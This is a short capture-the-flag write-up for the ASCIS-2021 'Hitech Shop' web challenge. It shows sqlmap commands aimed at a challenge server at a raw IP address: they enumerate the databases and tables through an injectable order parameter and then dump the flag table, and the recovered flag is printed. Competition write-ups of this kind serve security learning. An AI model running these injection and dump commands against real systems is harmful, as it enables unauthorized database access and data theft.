





# ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `sql injection`
 
*  i try `double quote` and this web response 

* After that i save `request` from `BurpSuite` and scan it with sqlmap

* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `i found two databases, but i only attention `vannd` 

* Then i use command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vand` table 
* Finally i found a table contain flag =))))

* Later i scan `flag` table use this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`

* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
